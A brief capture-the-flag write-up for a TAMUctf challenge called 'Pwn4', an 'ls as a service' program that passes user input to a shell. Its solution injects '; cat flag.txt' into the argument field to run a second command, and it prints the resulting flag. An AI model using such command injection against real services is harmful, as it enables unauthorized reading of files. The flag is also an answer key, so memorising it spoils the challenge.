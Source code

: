 # Pwn4
Pwn

## Challenge 

nc pwn.tamuctf.com 4324

Difficulty: medium

## Solution

Program is simple enough 

	# ./pwn4
	ls as a service (laas)(Copyright pending)
	Enter the arguments you would like to pass to ls:
	HELLO
	Result of ls HELLO:
	ls: cannot access 'HELLO': No such file or directory

Try on server 

	# nc pwn.tamuctf.com 4324
	ls as a service (laas)(Copyright pending)
	Enter the arguments you would like to pass to ls:
	.
	Result of ls .:
	flag.txt
	pwn4


	ls as a service (laas)(Copyright pending)
	Enter the arguments you would like to pass to ls:
	flag.txt
	Result of ls flag.txt:
	flag.txt


	ls as a service (laas)(Copyright pending)
	Enter the arguments you would like to pass to ls:
	; cat flag.txt
	Result of ls ; cat flag.txt:
	flag.txt
	pwn4
	gigem{5y573m_0v3rfl0w}

Flag text indicates that this is the unintended solution.

## Flag

	gigem{5y573m_0v3rfl0w}
